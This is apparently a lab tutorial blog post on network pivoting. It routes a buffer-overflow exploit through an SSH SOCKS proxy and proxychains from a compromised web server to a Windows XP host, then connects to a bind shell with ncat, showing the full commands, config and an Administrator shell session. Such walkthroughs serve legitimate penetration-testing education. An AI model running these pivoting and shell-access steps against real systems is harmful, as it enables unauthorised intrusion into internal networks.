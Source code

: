 
This is part 2 of a series of posts on pivoting techniques. In part 1, we used SSH port forwarding to pivot our exploit and obtain remote access to our Windows XP machine. In this article, we'll be performing the same attack, but instead of using SSH local port forwarding, we'll use Proxychains and an SSH SOCKS proxy.

<!--more-->

Proxychains sends connections made by applications through a proxy specified in the proxychains.conf file. By default, it uses Tor's SOCKS port 9050. Proxychains 4 can be downloaded from [https://github.com/haad/proxychains](https://github.com/haad/proxychains).

### The scenario

There are two networks, 192.168.81.0/24 and 192.168.63.0/24. Our attacking machine, and a web server that has access to the 192.168.63.0/24 network are located in the 192.168.81.0/24 network. Our target, a Windows XP SP2 machine, is located in the 192.168.63.0/24. Our attacking machine does not have direct access to it, but the web server does.

![](/images/2012-10-10/01.jpg)

We've already compromised the web server and obtained SSH access to it as the user webmaster. Our goal is to use the web server as our pivot and obtain a remote shell on the Windows XP machine. 

### The exploit

The Windows XP machine runs a vulnerable service called Server-Strcpy on port 10000. Server-Strcpy is part of the [SecurityTube Exploit Research Megaprimer](http://www.securitytube.net/video/1399) series, and can be downloaded at [http://code.securitytube.net/Server-Strcpy.exe](http://code.securitytube.net/Server-Strcpy.exe). I've written a quick exploit for Server-Strcpy.exe that binds a shell on port 4444, and can be downloaded [here](http://techorganic.com/software/serverstrcpy.py).


### The attack

To use Proxychains, we need to connect to the web server via SSH and set it as a SOCKS proxy. This is easily accomplished with the -D option in SSH. This is the command we would run on our machine: 

```
ssh -D 127.0.0.1:8888 webmaster@192.168.81.181
```

We would now have port 8888 listening on our machine, and any connection sent to that port will be proxied over to the web server, and the web server will make the connection on our behalf.
Proxychains 4 allows us to specify a configuration file to use, so we'll create a simple one that basically tells it to use port 8888 on our machine as the proxy: 

```
strict_chain
quiet_mode
proxy_dns
remote_dns_subnet 224
tcp_read_time_out 15000
tcp_connect_time_out 8000
localnet 127.0.0.0/255.0.0.0
 
[ProxyList]
socks4  127.0.0.1 8888
```

We'll save this as pivot.conf. We'll use the same exploit as before, which should open a bind shell on port 4444 on our Windows XP machine. Instead of running the exploit directly, we pass it as an argument to Proxychains: 

```
# proxychains4 -f ~/pivot.conf /usr/bin/python exploit.py 192.168.63.142 10000
[proxychains] config file found: /root/pivot.conf
[proxychains] preloading /usr/local/lib/libproxychains4.so
[+] sending payload of length 1479
[+] done
#
```

The -f option allows us to tell Proxychains which configuration file we want to use; in this case, pivot.conf. Notice that when we executed exploit.py, we specified the actual IP address of the target, and not 127.0.0.1, like we did in part 1. Proxychains makes it look like the target is directly accessible to us.

Now that the exploit has been executed, we can attempt to connect to the target on port 4444 and obtain our shell. In this case, I'll use ncat 

```
# proxychains4 -f ~/pivot.conf ncat -v 192.168.63.142 4444
[proxychains] config file found: /root/pivot.conf
[proxychains] preloading /usr/local/lib/libproxychains4.so
Ncat: Version 6.01 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.63.142:4444.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
 
C:\Documents and Settings\Administrator\Desktop>ipconfig
ipconfig
 
Windows IP Configuration
 
 
Ethernet adapter Local Area Connection:
 
        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.63.142
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.63.2
 
C:\Documents and Settings\Administrator\Desktop>
```

We've successfully obtained a remote shell on a machine on the internal network by pivoting with Proxychains. So far we've required SSH in order to pivot our attack. In part 3, we'll use ncat's client-to-client and listener-to-listener relays to perform our pivoting; a technique that does not require SSH. 

